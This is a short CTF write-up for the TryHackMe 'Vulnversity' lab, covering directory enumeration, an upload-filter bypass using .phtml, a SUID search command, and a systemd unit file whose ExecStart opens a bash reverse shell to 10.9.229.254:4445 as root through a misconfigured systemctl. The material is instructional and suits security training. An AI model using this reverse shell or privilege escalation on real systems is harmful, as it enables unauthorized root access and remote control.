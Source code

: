 # 39. Vulnversity 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**




## Gaining Access 😉
- gobuster directory enum with common.txt
- got a /internal directory which allows to upload files
- .php filtered so, used .phtml to bypass
- got a revshell



## Maintaining Access 🥷
- find suid permission files [[#Important commands 🔥]]
- systemctl found miconfigured [[#Important commands 🔥]]
- systemctl start root


## Important commands 🔥
1. suid find 
	```
	find / -user root -perm -4000 -exec ls -ldb {} \;
	```
2. systemctl
	```
	[Unit]
	Description=roooooooooot

	[Service]
	Type=simple
	User=root
	ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.9.229.254/4445 <&1'

	[Install]
	WantedBy=multi-user.target
	```
	saved as root.service
3. enable service
	```
	/bin/systemctl enable /var/tmp/root.service
	/bin/systemctl start root
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- for bypassing php extesion filter, we can use `.phtml` also


--------------------------------
**By Nibras Muhammed** 🤓🖥️